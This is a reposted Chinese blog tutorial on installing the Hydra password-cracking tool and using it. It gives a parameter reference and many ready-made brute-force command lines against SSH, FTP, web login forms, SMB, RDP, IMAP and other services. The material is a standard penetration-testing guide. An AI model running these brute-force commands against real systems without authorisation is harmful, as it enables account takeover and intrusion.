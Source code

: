 ```yaml
---
title: 渗透之——破解工具hydra安装与使用
categories: 精通渗透系列
tags: 渗透 hydra
---
```

转载请注明出处：https://blog.csdn.net/l1028386804/article/details/86019434

注：大家可以到链接https://download.csdn.net/download/l1028386804/10902002
下载Hydra一键安装包，内含冰河亲做一键安装脚本，直接运行即可。

**说明：**  
hydra是著名黑客组织thc的一款开源的暴力密码破解工具，可以在线破解多种密码。官网：http://www.thc.org/thc-
hydra，可支持AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-
FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET,
HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-
SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere,
PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP, SMTP
Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet,
VMware-Auth, VNC and XMPP等类型密码。  
这款暴力密码破解工具相当强大，支持几乎所有协议的在线密码破解，其密码能否被破解关键在于字典是否足够强大。对于社会工程型渗透来说，有时能够得到事半功倍的效果。本文仅从安全角度去探讨测试，请勿用于非法事件。

**安装：**  
1.yum安装相应依赖包

    
    
    # yum install openssl-devel pcre-devel ncpfs-devel postgresql-devel libssh-devel subversion-devel libncurses-devel

2.hydra编译安装

    
    
    # cd /usr/local/src
    # wget http://freeworld.thc.org/releases/hydra-6.3-src.tar.gz
    # tar zxf hydra-6.3-src.tar.gz
    # cd hydra-6.3-src
    # ./configure
    # make
    # make install

**参数：**

    
    
    hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns]
    [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]
    -R 继续从上一次进度接着破解。
    -S 采用SSL链接。
    -s PORT 可通过这个参数指定非默认端口。
    -l LOGIN 指定破解的用户，对特定用户破解。
    -L FILE 指定用户名字典。
    -p PASS 小写，指定密码破解，少用，一般是采用密码字典。
    -P FILE 大写，指定密码字典。
    -e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
    -C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
    -M FILE 指定目标列表文件一行一条。
    -o FILE 指定结果输出文件。
    -f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
    -t TASKS 同时运行的线程数，默认为16。
    -w TIME 设置最大超时的时间，单位秒，默认是30s。
    -v / -V 显示详细过程。
    server 目标ip
    service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
    OPT 可选项

**使用：**  
1.手动创建用户名字典和密码字典，这里只是为了演示，只加了几个用户名和弱口令。真正破解时，需要利用密码字典生成器生成强大的字典  
2.破解ssh：

    
    
    # hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.8 ssh

破解成功，直接显示结果。也可以使用 -o 选项指定结果输出文件。

    
    
    # hydra -L users.txt -P password.txt -t 1 -vV -e ns -o save.log 192.168.1.104 ssh

其它实例：

1.破解ssh：

    
    
    # hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
    # hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh

2.破解ftp：

    
    
    # hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
    # hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

3.get方式提交，破解web登录：

    
    
    # hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
    # hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php

4.post方式提交，破解web登录：

    
    
    # hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
    # hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:wrong username or password"
    （参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）

5.破解https：

    
    
    # hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

6.破解teamspeak：

    
    
    # hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

7.破解cisco：

    
    
    # hydra -P pass.txt 10.36.16.18 cisco
    # hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

8.破解smb：

    
    
    # hydra -l administrator -P pass.txt 10.36.16.18 smb

9.破解pop3：

    
    
    # hydra -l muts -P pass.txt my.pop3.mail pop3

10.破解rdp：

    
    
    # hydra ip rdp -l administrator -P pass.txt -V

11.破解http-proxy：

    
    
    # hydra -l admin -P pass.txt http-proxy://10.36.16.18

12.破解imap：

    
    
    # hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
    # hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
    此工具强大之处远多于以上测试，其密码能否破解关键在于强大的字典，对于社工型渗透来说，有时能够得到事半功倍的效果

**附录：**  
附录1:hydra: error while loading shared libraries: libssh.so.4: cannot open
shared object file: No such file or directory  
如果是ubuntu系统的话，直接apt-get install cmake libssl-dev就可以了。但我系统的centOS，没有找到libssl-
dev这东西。因为手#动编译了libssh

    
    
    # yum install cmake
    # cd /usr/local/src
    # wget http://www.libssh.org/files/0.4/libssh-0.4.8.tar.gz
    # tar zxf libssh-0.4.8.tar.gz
    # cd libssh-0.4.8
    # mkdir build
    # cd build
    # cmake -DCMAKE_INSTALL_PREFIX=/usr -DCMAKE_BUILD_TYPE=Debug -DWITH_SSH1=ON ..
    # make
    # make install
    # /sbin/ldconfig  //要执行这句，不然会出现hydra: error while loading shared libraries: libssh.so.4: cannot open shared object file: No such file or directory
    
    # cd /usr/local/src
    # wget http://freeworld.thc.org/releases/hydra-6.3-src.tar.gz
    # tar zxf hydra-6.3-src.tar.gz
    # cd hydra-6.3-src
    # ./configure
    # make
    # make install

